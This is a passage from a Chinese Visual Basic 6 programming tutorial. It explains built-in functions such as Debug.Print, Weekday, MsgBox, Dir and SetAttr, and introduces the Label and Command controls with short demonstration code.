

> 提示：为了让大家更直观地看到运行之后的效果，很多时候，我们是使用 MsgBox 弹出对话框给大家展示结果的。然而，在实际的调试过程中，我们更多的是使用 Debug 语句将结果输出到立即窗口中（如果有 100 个变量，我们不可能使用 MsgBox 依次弹出 100 个对话框吧？）。其语句基本形式是：Debug.Print 变量名或常量名。下面举例说明它的用法：

```vb
Dim Str1 As String
Str1 = "Please Visit: Http://www.nohack.cn"
Debug.Print Str1
```

上面的代码运行后如图 1-26 所示。如果你没有看到立即窗口，请在菜单栏中选择“视图->立即窗口”。



#### 10. UCase 函数

读者朋友们可能已经猜到了，该函数用于将所有字符转换为大写。U 是 Upper 的首字母，UCase 也就是 Upper Case。它也只有一个参数，基本形式为：UCase(字符串或字符串变量)。这里不再举例说明其用法。

#### 11. 日期时间函数

这里我们介绍几个常用的日期时间函数：Date、Time、Now、Year、Month、Day、Weekday、Hour、Minute、Second。

- a) Date：用于返回当前日期，只有年月日。
- b) Time：用于返回当前时间，只有时分秒。
- c) Now：用于返回当前日期，包括年月日和时分秒。
- d) Year：用于返回日期中的年份。
- e) Month：用于返回日期中的月份。
- f) Day：用于返回日期中是几号。
- g) Weekday：用于返回日期是星期几。
- h) Hour：用于返回时间中的小时数。
- i) Minute：用于返回时间中的分钟数。
- j) Second：用于返回时间中的秒数。

上面的函数中，Date、Time、Now 都是没有参数的，可以直接引用，其他函数中还应该有相应的日期或时间作为参数。下面简单举例说明一下使用：

```vb
MsgBox Year(#7/24/2009#)      ' 此时返回年份 2009
MsgBox Month(#7/24/2009#)     ' 此时返回月份 7 月
MsgBox Day(#7/24/2009#)       ' 返回 24，也就是该月的几号
MsgBox Hour(#8:57:20 PM#)     ' 返回小时数 20
MsgBox Minute(#8:57:20 PM#)   ' 返回分钟数 57
MsgBox Second(#8:57:20 PM#)   ' 返回秒数 20
```

函数 Weekday 由于有两个参数，我们单独介绍一下。它的函数基本形式是：Weekday(日期, [每星期的第一天])。这里，每星期的第一天指的是把星期几作为每个星期的开始，默认是把星期日作为一周的开始，这样是不是有点不符合中国人的习惯呢？所以，我们可以设置星期一作为一个星期的开始。参数“每星期的第一天”可以设置成下面的值：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbUseSystem | 0 | 使用 NLS API 设置。 |
| vbSunday | 1 | 星期日（缺省值） |
| vbMonday | 2 | 星期一 |
| vbTuesday | 3 | 星期二 |
| vbWednesday | 4 | 星期三 |
| vbThursday | 5 | 星期四 |
| vbFriday | 6 | 星期五 |
| vbSaturday | 7 | 星期六 |

例如，我们需要返回 2009 年 7 月 24 日是星期几，则可以使用：

```vb
MsgBox Weekday(#7/24/2009#, vbMonday)
```

函数最终返回值是 5，也就是星期五，这里是把星期一作为一星期的开始。如果第二个参数被省略，变成：

```vb
MsgBox Weekday(#7/24/2009#)
```

最终得到的结果将会是 6，也就是说，这一天是一星期的第六天（从星期日开始算起）。

#### 12. 数学函数

在程序中，我们经常需要进行数学运算，VB 提供了一些运算函数：

- a) Sin 用于返回某个角的正弦值
- b) Cos 用于返回某个角的余弦值
- c) Tan 用于返回某个角的正切值
- d) Atn 用于返回数值的反正切值
- e) Sqr 用于返回数值的平方根
- f) Exp 用于返回 e 的幂次方（e 是自然对数的底）
- g) Log 用于返回数值的自然对数
- h) Abs 用于返回数值的绝对值
- i) Sgn 用于返回数值符号的整数

> **注意：**上面所提到的角，应该是采用弧度值来表示的。例如一个 90° 的角，我们应该表示成 pi/2（其中 Pi=3.1415926……）。下面我们来求一个 30° 的角的正弦值：

```vb
Const pi = 3.1415926      ' 常数 pi，也即我们通常所说的 π
MsgBox Sin(pi / 6)        ' 返回求 pi/6，也就是 30° 角的 Sin 值
```

这里由于 pi 的值有一些误差，所以最终的结果不是完全准确的，如图 1-27 所示。



#### 13. MsgBox 函数

此函数用于显示一个消息呈现给用户。其基本形式是：MsgBox(提示内容，对话框样式，标题)。消息提示框的样式较多，请参照下表：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbOKOnly | 0 | 只显示 OK 按钮。 |
| vbOKCancel | 1 | 显示 OK 及 Cancel 按钮。 |
| vbAbortRetryIgnore | 2 | 显示 Abort、Retry 及 Ignore 按钮。 |
| vbYesNoCancel | 3 | 显示 Yes、No 及 Cancel 按钮。 |
| vbYesNo | 4 | 显示 Yes 及 No 按钮。 |
| vbRetryCancel | 5 | 显示 Retry 及 Cancel 按钮。 |
| vbCritical | 16 | 显示 Critical Message 图标。 |
| vbQuestion | 32 | 显示 Warning Query 图标。 |
| vbExclamation | 48 | 显示 Warning Message 图标。 |
| vbInformation | 64 | 显示 Information Message 图标。 |
| vbDefaultButton1 | 0 | 第一个按钮是缺省值。 |
| vbDefaultButton2 | 256 | 第二个按钮是缺省值。 |
| vbDefaultButton3 | 512 | 第三个按钮是缺省值。 |
| vbDefaultButton4 | 768 | 第四个按钮是缺省值。 |





表格中第一列是常数的名称，第二列是常数的值。在填写参数时，我们可以用名称，亦可以使用数值。下面举例说明，我们在对话框中显示问号图标、Yes 按钮、No 按钮和 Cancel 按钮：

```vb
MsgBox "《黑客手册》￥10/本，确认购买？", vbQuestion + vbYesNoCancel, "询问"
MsgBox "《黑客手册》￥10/本，确认购买？", 32 + 3, "询问"
```

上面的两条语句效果是一样的，运行后如图 1-28 所示。平时我们用得最多的还有 vbInformation 这个图标，当一项操作成功时，我们通常用它来提示用户，请看下面的代码：

```vb
MsgBox "操作成功!", vbInformation, "Success"
```

运行后如图 1-29 所示。

读者朋友们请注意，MsgBox 这个函数是可以有返回值的，也就是说，它可以捕获用户所按下的按钮，上面我们没有加括号，所以会丢了返回值。下面我们来看看 MsgBox 函数可以有哪些返回值：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbOK | 1 | 按下 OK 按钮 |
| vbCancel | 2 | 按下 Cancel 按钮 |
| vbAbort | 3 | 按下 Abort 按钮 |
| vbRetry | 4 | 按下 Retry 按钮 |
| vbIgnore | 5 | 按下 Ignore 按钮 |
| vbYes | 6 | 按下 Yes 按钮 |
| vbNo | 7 | 按下 No 按钮 |

请看下面的例子：

```vb
Dim Ret As Integer            ' 声明一个整型变量，存储函数返回值
Ret = MsgBox("订单金额￥10，是否现在就支付？", vbQuestion + vbYesNo, "提示信息")
If Ret = vbYes Then
    MsgBox "你按下了Yes按钮"
Else
    MsgBox "你按下了No按钮"
End If
```

上面的 vbYes 也可以换成常数 6，不过一般为了使代码更直观，通常都是使用常数的名称。

> **提示：**下面的这种形式也是允许的：
>
> ```vb
> If MsgBox("是否现在就支付？", vbQuestion + vbYesNo, "提示信息") = vbYes Then
>     MsgBox "你按下了Yes按钮"
> End If
> ```

#### 14. Dir 函数

Dir 函数的基本形式为：Dir(路径[, 属性])，其中属性为可选参数，它并不是必须的。属性的可能值有：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbNormal | 0 | （缺省）指定没有属性的文件。 |
| vbReadOnly | 1 | 指定无属性的只读文件 |
| vbHidden | 2 | 指定无属性的隐藏文件 |
| vbSystem | 4 | 指定无属性的系统文件 |
| vbVolume | 8 | 指定卷标文件；如果指定了其它属性，则忽略 vbVolume |
| vbDirectory | 16 | 指定无属性文件及其路径和文件夹。 |

需要注意的是：Dir 函数还支持通配符 *（多个字符）和 ?（单个字符），例如 `Dir("D:\\hacktools\\*.exe")` 会返回 `D:\Hacktools` 这个文件夹中第一个以 Exe 作为扩展名的文件。第一次调用 Dir 函数时，返回满足条件的第一个文件或文件夹的名称。如果需要获取满足条件的更多的文件和文件夹，则再次直接调用函数 Dir，且不要添加任何参数。当已经不存在满足条件的文件或文件夹时，Dir 函数返回值是空的字符串，即 `vbNullString`。

下面举例说明 Dir 函数的用法，我们使用 Dir 函数列出 `D:\Movie\` 这个文件夹里面的所有文件：

```vb
Private Sub Form_Load()
    Dim Myfile As String, AllName As String             ' 声明两个字符串变量
    Myfile = Dir("D:\\movie\\")                         ' 返回第一个文件的名称到 Myfile
    While Myfile <> vbNullString                        ' 如果其值不是空字符串
        AllName = Myfile & Chr(13) & Chr(10) & AllName ' 合并 Myfile 到 AllName 中
        Myfile = Dir                                    ' 获取下一个文件，返回给 Myfile
    Wend
    MsgBox AllName                                      ' 使用消息对话框显示所有文件
End Sub
```

请注意上面 `Chr(13) & Chr(10)` 表示回车换行符。其运行后如图 1-30 所示。

> **提示：**声明了一个变量后，其初始值为空，字符串变量初始为 `vbNullString`，数值变量初始为 0。上面的代码中，AllName 初始为空字符串。



#### 15. SetAttr 函数

该函数用于设置文件和文件夹的属性，它的功能和 Windows 自带的 Attrib.exe 类似。大家可以在 Cmd 下键入 `attrib /?` 来查看 Attrib.exe 的使用帮助。SetAttr 函数的基本形式是：SetAttr 路径，属性。属性的可选值请参考下面的表格：

| 常量 | 值 | 说明 |
|---|---:|---|
| vbNormal | 0 | 常规（缺省值） |
| vbReadOnly | 1 | 只读 |
| vbHidden | 2 | 隐藏 |
| vbSystem | 4 | 系统文件 |
| vbArchive | 32 | 上次备份以后，文件已经改变 |

这个函数使用起来非常简单。例如，我们要将 `D:\Temp` 这个文件夹设置成隐藏加系统属性，则可以使用代码：`SetAttr "D:\temp", vbHidden + vbSystem`，此时文件夹将不可见。为了恢复其可见属性，则可以使用代码：`SetAttr "D:\temp", vbNormal`。这个函数在处理被 VBDownloader 病毒感染的 U 盘时非常有用，因为 VBDownloader 病毒会生成和文件夹同名的 Exe 文件，并且将原来的文件夹设置成“隐藏 + 系统”属性。

## 1.9 基本控件的使用

VB 的工具箱中包含了几个标准控件，这些控件使编程变得非常简单，只需要对控件的属性进行设置，并在控件对应的事件中添加代码，就可以实现比较多的功能。工具箱如图 1-31 所示。



我们使用得最多的标准控件有命令按钮（Command）、文本编辑控件（TextBox）、单项选择控件（CheckBox）、多项选择控件（OptionButton）、组合框控件（ComboBox）、列表框控件（ListBox）、时钟控件（Timer）等。下面对部分控件进行简单介绍：

### 1.9.1 Label 控件

Label，也就是我们经常所说的标签，主要用于显示一些文字信息，用户是不能直接通过鼠标和键盘对它显示的内容进行编辑的。它的几个重要属性有：Caption（标题）、BorderStyle（边框样式）、Font（字体）。

#### 1. Caption 属性

#### 2. BorderStyle 属性

该属性用于设置标签的边框样式。其可选值有：0，标签无边框；1，标签有边框，并且具有三维效果。分别将 BorderStyle 设置成 0 和 1 后显示如图 1-32 所示。



图 1-32 分别设置 Label 的 BorderStyle 为 0 和 1

#### 3. Font 属性

该属性用于设置标签的字体。例如，设定标签的字体为黑体：`Label1.Font = "黑体"`。与此同时，Font 还是一个对象，它本身也拥有其他属性：

- a) Bold 属性  
  该属性用于加粗字体，使用举例：`Label1.Font.Bold = True`。如果设置成 False，则不加粗。
- b) Italic 属性  
  该属性用于将字体倾斜。使用举例：`Label1.Font.Italic = True`。如果设置成 False，则不会倾斜。
- c) Size 属性  
  该属性用于设置字体的大小。使用举例：`Label1.Font.Size = 12`，将字体设置成 12 号。
- d) Underline 属性  
  该属性用于设置是否有下划线。使用举例：`Label1.Font.Underline = True`。如果设置成 False，则没有下划线。



图 1-33 通过属性窗口设置控件的属性

### 1.9.2 Command 控件

每一个控件都有它的属性，大部分属性都是可以在编辑器中进行设置的，选中一个控件后，编辑器右侧的属性窗口会列出它的各种属性，如图 1-33 所示。在属性窗口中，左侧是属性的名称，右侧是该属性的值。例如，图 1-33 中 Command1 的 Enabled 属性的值是 True。

Command 按钮最重要的几个属性有：

#### 1. Cancel 属性

返回或设置一个值用来指示窗体中命令按钮是否为取消按钮。当按钮 Cancel 属性为 True 时，按下 Esc 键与单击这个按钮所达到的效果是一样的。在窗体里，只能有一个按钮的 Cancel 属性被设置成 True，当一个按钮的 Cancel 属性被设置成 True 时，其他的按钮自动被设置成 False。举例说明一下。首先，将 Command1 的 Cancel 属性设置成 True。然后，为按钮的单击事件添加代码：

```vb
Private Sub Command1_Click()
    MsgBox "你选择了取消"
End Sub
```

单击按钮时，会弹出对话框。那如果我们按下 Esc 键呢？答案是同样会弹出对话框。因为，我们已经把这个按钮作为了取消按钮，按下 Esc 键与单击该按钮的作用是一样的。

#### 2. Default 属性

返回或设定一个值，用于设定哪个按钮作为窗体的缺省命令按钮。当一个按钮的 Default 属性被设置成 True，其他按钮的该属性自动被设置成 False，在一个窗体中，只允许一个按钮作为缺省命令按钮。窗体载入时，该按钮会获取焦点，此时，我们在窗体中按下回车键与单击这个按钮所达到的效果是一样的。

#### 3. Caption 属性

该属性用于设置按钮上显示的文字，很多控件的 Caption 属性也都是用来设置其显示的文字的。在 Caption 属性中，我们还可以为按钮设置快捷方式。具体的做法是在一个字母前面加上符号“&”。此时，按钮上该字母会有一条下划线。例如，设置一个按钮的 Caption 属性为“命令按钮&A”，它就为该按钮设置了 Alt+A 的快捷方式。我们在窗体上按下 Alt+A 和按下该按钮，效果是等同的。此时按钮上的文字显示如图 1-34 所示。

